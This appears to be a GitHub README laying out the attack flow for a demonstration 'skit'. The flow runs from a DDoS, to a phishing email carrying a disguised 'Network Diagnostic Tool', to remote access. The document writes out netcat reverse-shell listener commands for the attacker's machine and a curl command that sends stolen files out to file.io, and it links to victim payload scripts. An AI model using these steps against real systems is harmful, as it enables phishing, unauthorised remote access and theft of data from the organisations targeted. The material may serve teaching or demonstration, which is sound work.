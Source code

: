 # Attack Flow

1. DDoS to a company’s computer to cause slow network traffic

2. Send a phishing email with the ‘Network Diagnostic Tool’ to offer a solution to the slow traffics

3. Gain access to the computer and navigate through the computer’s directories
    - On attacker's computer (Linux with netcat installed), run the following
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    If the victim is using Windows, run the following
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```
    - Victim runs the 'Diagnostic Tool' executable file: [Linux](../Attack/victim_linux.py) or [Windows](../Attack/victim_windows.py)
    - Boom! Access granted!

4. Upload whatever files we want to file.io
    - Run the following curl script and take note of the key it returns
    ```bash
    curl -X 'POST' \
        'https://file.io/' \
        -H 'accept: application/json' \
        -H 'Content-Type: multipart/form-data' \
        -F 'file=@FILE_NAME_GOES_HERE' \
        -F 'expires=DATETIME_IN_ISO8601_FORMAT' \
        -F 'maxDownloads=1' \
        -F 'autoDelete=true'
    ```
    - Download all the files after the attack

5. Find another company as our target to attack

6. Perform the same attack again, turns out this company has very good security in place

7. End of our skit
